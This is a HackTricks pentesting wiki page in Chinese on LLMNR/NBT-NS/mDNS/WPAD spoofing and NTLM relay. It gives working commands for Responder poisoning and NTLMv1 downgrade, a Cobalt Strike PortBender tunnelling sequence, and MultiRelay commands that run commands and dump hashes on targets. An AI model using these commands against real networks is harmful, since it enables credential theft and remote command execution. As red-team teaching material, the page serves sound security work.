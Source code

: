 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 网络协议

### 本地主机解析协议
- **LLMNR, NBT-NS 和 mDNS**：
- 微软和其他操作系统在 DNS 失败时使用 LLMNR 和 NBT-NS 进行本地名称解析。类似地，苹果和 Linux 系统使用 mDNS。
- 由于这些协议在 UDP 上的未认证广播特性，它们容易受到拦截和欺骗。
- [Responder](https://github.com/lgandx/Responder) 可用于通过向查询这些协议的主机发送伪造响应来冒充服务。
- 有关使用 Responder 进行服务冒充的更多信息，请参见 [这里](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)。

### Web 代理自动发现协议 (WPAD)
- WPAD 允许浏览器自动发现代理设置。
- 通过 DHCP、DNS 进行发现，或在 DNS 失败时回退到 LLMNR 和 NBT-NS。
- Responder 可以自动化 WPAD 攻击，将客户端引导到恶意 WPAD 服务器。

### Responder 用于协议中毒
- **Responder** 是一个用于中毒 LLMNR、NBT-NS 和 mDNS 查询的工具，根据查询类型选择性响应，主要针对 SMB 服务。
- 它在 Kali Linux 中预装，可在 `/etc/responder/Responder.conf` 中配置。
- Responder 在屏幕上显示捕获的哈希并将其保存在 `/usr/share/responder/logs` 目录中。
- 它支持 IPv4 和 IPv6。
- Windows 版本的 Responder 可在 [这里](https://github.com/lgandx/Responder-Windows) 获取。

#### 运行 Responder
- 使用默认设置运行 Responder：`responder -I <Interface>`
- 进行更激进的探测（可能有副作用）：`responder -I <Interface> -P -r -v`
- 捕获 NTLMv1 挑战/响应以便于破解的技术：`responder -I <Interface> --lm --disable-ess`
- 可以通过以下命令激活 WPAD 冒充：`responder -I <Interface> --wpad`
- NetBIOS 请求可以解析为攻击者的 IP，并可以设置身份验证代理：`responder.py -I <interface> -Pv`

### 使用 Responder 进行 DHCP 中毒
- 伪造 DHCP 响应可以永久中毒受害者的路由信息，提供比 ARP 中毒更隐蔽的替代方案。
- 这需要对目标网络配置的精确了解。
- 运行攻击：`./Responder.py -I eth0 -Pdv`
- 这种方法可以有效捕获 NTLMv1/2 哈希，但需要小心处理以避免网络中断。

### 使用 Responder 捕获凭据
- Responder 将使用上述协议冒充服务，当用户尝试对伪造服务进行身份验证时捕获凭据（通常是 NTLMv2 挑战/响应）。
- 可以尝试降级到 NetNTLMv1 或禁用 ESS 以便于凭据破解。

重要的是要注意，使用这些技术应合法和道德，确保获得适当授权，避免干扰或未经授权的访问。

## Inveigh

Inveigh 是一个针对渗透测试人员和红队成员的工具，专为 Windows 系统设计。它提供与 Responder 类似的功能，执行欺骗和中间人攻击。该工具已从 PowerShell 脚本演变为 C# 二进制文件，主要版本为 [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) 和 [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero)。详细参数和说明可以在 [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) 中找到。

Inveigh 可以通过 PowerShell 操作：
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
或作为 C# 二进制文件执行：
```bash
Inveigh.exe
```
### NTLM Relay Attack

此攻击利用 SMB 认证会话访问目标机器，如果成功则授予系统 shell。关键前提包括：
- 认证用户必须在中继主机上具有本地管理员访问权限。
- SMB 签名应禁用。

#### 445 端口转发和隧道

在直接网络引入不可行的情况下，需要转发和隧道 445 端口上的流量。像 [**PortBender**](https://github.com/praetorian-inc/PortBender) 这样的工具有助于将 445 端口流量重定向到另一个端口，这在具有驱动程序加载的本地管理员访问权限时至关重要。

PortBender 在 Cobalt Strike 中的设置和操作：
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM中继攻击的其他工具

- **Metasploit**: 设置代理、本地和远程主机详细信息。
- **smbrelayx**: 用于中继SMB会话并执行命令或部署后门的Python脚本。
- **MultiRelay**: Responder套件中的一个工具，用于中继特定用户或所有用户，执行命令或转储哈希。

每个工具都可以配置通过SOCKS代理操作，如果需要，即使在间接网络访问的情况下也能进行攻击。

### MultiRelay操作

MultiRelay从_**/usr/share/responder/tools**_目录执行，针对特定IP或用户。
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
这些工具和技术形成了一套全面的工具，用于在各种网络环境中进行 NTLM Relay 攻击。

### 强制 NTLM 登录

在 Windows 中，您**可能能够强制某些特权账户对任意机器进行身份验证**。请阅读以下页面以了解如何操作：

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## 参考文献
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
